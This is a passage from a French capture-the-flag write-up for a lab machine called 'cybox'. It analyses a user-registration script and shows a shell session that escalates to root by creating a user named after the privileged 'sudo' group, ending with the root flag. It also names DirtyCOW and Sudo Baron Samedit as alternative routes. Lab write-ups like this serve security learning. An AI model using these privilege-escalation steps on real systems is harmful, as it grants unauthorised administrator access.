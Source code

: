 ```bash
fi
```

C'est visiblement le même script qui était appelé depuis `register.cybox.company`.

Le script n'est pas vulnérable à une injection de commande car la valeur `$USERNAME` est systématiquement mise entre double-quotes.

Le script n'est pas non plus vulnérable à une race-condition. L'idée qui m'est venue est qu'entre le `useradd` et le `chown` on dispose d'assez de temps pour créer un lien symbolique de `Maildir` vers `/etc/sudoers` ou `/etc/shadow`.

Seulement :

* si on créé un lien symbolique dans `Maildir`, `chown -R` ne suit pas les liens symboliques

* si on crée un lien symbolique `Maildir` la commande `chown` indiquera que `Maildir/` n'est pas un dossier

Au final le seul élément vulnérable c'est l'affectation du groupe par `useradd` à l'utilisateur : le script vérifie que l'utilisateur n'existe pas déjà mais ne fait pas la même chose pour le groupe. Si on choisi de créer un utilisateur nommé après un groupe privilégié il y a moyen d'augmenter nos privilèges.

Généralement les utilisateurs du groupe `sudo` peuvent passer root :

```bash
daemon@cybox:/opt$ ./registerlauncher sudo 
sudo@cybox.company has been created successfully. The credentials are sudo:sudo. You should change your default password for security.
daemon@cybox:/opt$ su sudo
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

sudo@cybox:/opt$ sudo su
[sudo] password for sudo: 
root@cybox:/opt# cd /root/
root@cybox:~# ls
Maildir  root.txt
root@cybox:~# cat root.txt 
4c0183fdd736e2b8fb3f57ddbfa8ce36
```

C'est bien la première fois que je fais un `su sudo` au lieu d'un `sudo su` :D

Alternativement `LinPEAS` indiquait que le système est vulnérable à `DirtyCOW`  et `Sudo Baron Samedit`.

*Publié le 16 novembre 2022*
